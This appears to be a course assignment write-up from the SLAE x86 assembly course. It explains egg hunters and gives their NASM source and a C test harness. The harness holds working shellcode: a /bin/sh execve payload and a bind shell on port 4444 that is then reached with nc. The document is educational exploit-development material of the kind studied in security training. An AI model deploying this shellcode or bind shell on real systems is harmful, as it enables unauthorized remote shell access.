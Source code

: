 # SLAE course
This course can be found here:
[Link to course](https://www.pentesteracademy.com/course?id=3)

## Assignment#3: What to do ?
This assignment is divided in 3 steps:
* Define and explain an egg hunter
* Create a working demo of an egg hunter
* Make the egg hunter easily configurable for different payloads

Now, let's get to work.
=

## Step 1: Define and explain an egg hunter
The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode.  Instead, a unique “tag” is prefixed with shellcode. 

When the “Egg hunter” shellcode is executed, it searches for the unique “tag” that was prefixed with the large payload and starts the execution of the payload. 

In classic stack based buffer overflow, the buffer size is big enough to hold the shellcode. But, what will happen if there is not enough consecutive memory space available for the shellcode to fit in after overwrite happens.

In general the egg hunter code needs to follow three rules:
1) It must be robust
    * This requirement is used to express the fact that the egg hunter must be capable of searching through memory regions that are invalid and would otherwise crash the application if they were to be dereferenced improperly. It must also be capable of searching for the egg anywhere in memory.
2) It must be small
    * The size is a principal requirement for the egg hunters as they must be able to go where no other payload would be able to fit when used in conjunction with an exploit. The smaller the better.
3) It should be fast
    * In order to avoid sitting idly for minutes while the egg hunter does its task, the methods used to search VAS should be as quick as possible, without violating the first requirement or second requirements without proper justification.

An amazing PDF from "hick.org" describes the whole process and how to use it:
[Link to PDF](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

## Step 2: create a working demo of an egg hunter
The egg hunter code is divided in four major parts:
1) The first step initialize the registers to NULL. 

2) The next step is to perform a page alignment operation on the current pointer that is being validated by doing a bitwise OR operation on the low 16-bits of the current pointer (stored in edx) and then incrementing edx by one. This operation is equivalent to adding 0x1000 to the value in edx. The reason these two operations are separated is to avoid nullbytes inside the shellcode.

3) The third step is to use a systemcall 'access' which will take an address as a parameter and check for us if the memory address is valid. If not the systemcall will return '0xf2' telling us the given address is invalid and then loop until the result returns a valid address.

4) The last step is to check two times the presence of the egg. Because, if we don't do this check a second time the egg hunter code will jump on the wrong memory address and then execute an invalid code.

The egg hunter shellcode:
```nasm
global _start

;FIRST PART
_start:
	xor ecx, ecx 			;Initialize ecx to NULL
	mul ecx				;Initilize eax and edx to NULL

;SECOND PART
_firstStep:
	or dx, 0xfff			;Do a OR on dx register, dx == 0xFFF

_secondStep:
	inc edx				;Add 1 to edx, edx == 0x1000

    ;THIRD PART
	lea ebx, [edx+0x4]		;ebx now holds the value of edx + 0x4
	push byte +0x21			;Push 0x21 on the stack
	pop eax				;Pop 0x21 which is the systemcall value of access
	int 0x80			;Go for it
	cmp al, 0xf2			;Compare the systemcall return value to 0x2f
	jz _firstStep			;If zero, the program will jump to '_firstStep'. Which means the return value is not a valid memory address

    ;FOURTH PART
	mov eax, 0x50905090		;This instruction will move our egg value inside eax
	mov edi, edx			;Move the address stores in edx to edi
	scasd				;This instruction will compare the value inside eax and edi
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	scasd				;We check a second time the presence of our egg before executing the shellcode
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	jmp edi				;Jump to our payload
```

Let's compile it:
```console
#nasm -f elf32 -o egg_hunter.o egg_hunter.nasm
#ld -m elf_i386 -z execstack -o egg_hunter egg_hunter.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
#objdump -d ./egg_hunter |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

The following C code is used to test our egg hunter:
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile it and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
#./test_shellcode
```

## Step 3: make the egg hunter easily configurable for different payloads
For this part, we will use the bind_shell.nasm code from the assignment#1.

We first need to compile it:
```console
#nasm -f elf32 -o bind_shell.o bind_shell.nasm
#ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
#objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

We will use exactly the same C code has shown before to test a different payload. In this case our bind shell.
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

// the bind shell code is stored inside this variable precede by two eggs
unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile the code and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
#./test_shellcode
```

We can use netcat to check if the port 4444 is open:
```console
#netstat -antp | grep 4444
```

Finaly, netcat can be used to access our bind shell 
```console
#nc -nv 127.0.0.1 4444
```